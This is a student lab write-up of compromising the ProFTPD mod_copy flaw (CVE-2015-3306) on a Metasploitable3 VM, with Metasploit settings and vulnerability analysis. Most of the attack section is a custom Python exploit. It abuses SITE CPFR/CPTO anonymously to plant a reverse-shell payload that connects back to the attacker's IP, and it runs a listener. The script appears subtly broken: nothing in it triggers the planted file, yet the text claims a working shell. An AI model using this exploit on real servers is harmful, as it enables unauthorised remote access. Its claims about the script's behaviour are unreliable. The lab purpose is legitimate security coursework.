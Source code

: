 # Phase 1: Setup and Compromise the Service

## Vulnerable Service Selection
For this project, we targeted the **ProFTPD** service on Metasploitable3. This FTP server contains a well-known vulnerability (mod_copy module) that allows an attacker to copy files within the target system without authentication.

## Environment Setup

### Victim Environment 
- **VM**: Metasploitable3 
- **IP Address**: 192.168.56.104
- **Vulnerable Service**: ProFTPD with mod_copy module enabled

### Attacker Environment
- **VM**: Kali Linux
- **IP Address**: 192.168.56.102
- **Tools**: Metasploit Framework, Custom Python Exploit

## Attack Execution

### Method 1: Using Metasploit Framework

The first attack method utilized the Metasploit Framework's `unix/ftp/proftpd_modcopy_exec` module to exploit the vulnerable ProFTPD service.

#### Steps:
1. Initiated Metasploit and selected the appropriate exploit module
2. Set the necessary parameters:
   - RHOSTS: 192.168.56.104 (Target IP)
   - LHOST: 192.168.56.102 (Attacker IP)
   - SITEPATH: /var/www/html (Web directory)
3. Executed the exploit, gaining a reverse shell on the target system

#### Exploit Execution:
![Metasploit Exploitation](https://github.com/Jaijer/Security_Project/blob/main/Phase1/img1.jpeg?raw=true)

The exploit successfully:
- Connected to the FTP server
- Executed the mod_copy commands to place a PHP webshell
- Established a reverse shell connection back to our attacking machine

### Method 2: Using Custom Python Script

We developed a custom Python script that replicates the functionality of the Metasploit module but leverages Python's ftplib to interact with the ProFTPD server.

#### Script Overview:
```python
import ftplib
import socket
import sys
import threading
import time
# Configuration
RHOST = "192.168.56.104"
LHOST = "192.168.56.102"
LPORT = 4444
SITEPATH = "/var/www/html/shell.py"
FTP_PORT = 21
# Reverse shell command
payload = f"""python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{LHOST}",{LPORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
"""
# Listener function
def start_listener():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((LHOST, LPORT))
    s.listen(1)
    print(f"[+] Listening on {LHOST}:{LPORT}...")
    conn, addr = s.accept()
    print(f"[+] Connection from {addr}")
    while True:
        try:
            cmd = input("$ ")
            if not cmd:
                continue
            conn.send(cmd.encode() + b"\n")
            response = conn.recv(4096).decode()
            print(response)
        except KeyboardInterrupt:
            conn.close()
            s.close()
            break
# Start listener in a background thread
listener_thread = threading.Thread(target=start_listener)
listener_thread.daemon = True
listener_thread.start()
# FTP connection
try:
    ftp = ftplib.FTP()
    ftp.connect(RHOST, FTP_PORT)
    ftp.login("anonymous", "anonymous@")
    print("[+] Logged in anonymously")
    # Use SITE CPFR to prepare for file creation
    ftp.sendcmd(f"SITE CPFR /dev/stdin")
    print("[+] SITE CPFR /dev/stdin")
    # Use SITE CPTO to create the file in the web directory
    ftp.sendcmd(f"SITE CPTO {SITEPATH}")
    print(f"[+] SITE CPTO {SITEPATH}")
    # Send the payload via APPE
    ftp.storlines("APPE /dev/stdin", iter(payload.splitlines(keepends=True)))
    print("[+] Payload sent")
    ftp.quit()
    print("[+] FTP session closed")
except Exception as e:
    print(f"[!] Error: {e}")
    sys.exit(1)
# Wait for the listener to catch the shell
try:
    while True:
        time.sleep(1)
except KeyboardInterrupt:
    print("\n[+] Exiting...")
```

The script works by:
1. Setting up a listener for the reverse shell
2. Connecting to the FTP server anonymously
3. Using the SITE CPFR and SITE CPTO commands to abuse the mod_copy module
4. Placing a Python reverse shell in the web directory
5. Executing the shell to establish a connection back to our attacker machine

#### Custom Script Execution:
![Custom Script Exploitation](https://github.com/Jaijer/Security_Project/blob/main/Phase1/img2?raw=true)

The custom script successfully:
- Connected to the FTP server anonymously
- Used the SITE CPFR and CPTO commands
- Received an error that the file exists, demonstrating the vulnerability
- Established a reverse shell connection (as seen in our listening session)

## Vulnerability Analysis

The ProFTPD mod_copy module vulnerability (CVE-2015-3306) allows remote attackers to read and write to arbitrary files on the system via the SITE CPFR and SITE CPTO commands. This vulnerability exists because:

1. The mod_copy module allows copying files between locations on the server
2. No authentication is required to use these commands
3. The module doesn't properly restrict where files can be copied to or from

This vulnerability is particularly dangerous as it allows attackers to:
- Write malicious files to web directories
- Execute arbitrary code on the target system
- Create backdoors for persistent access

## Conclusion

We successfully compromised the ProFTPD service on Metasploitable3 using both Metasploit and a custom Python script. The vulnerability in the mod_copy module allowed us to place a reverse shell on the target system and execute arbitrary commands, demonstrating the severe impact of this security flaw.

In Phase 2, we will analyze the logs from both the victim and attacker machines to better understand the attack patterns and indicators of compromise.
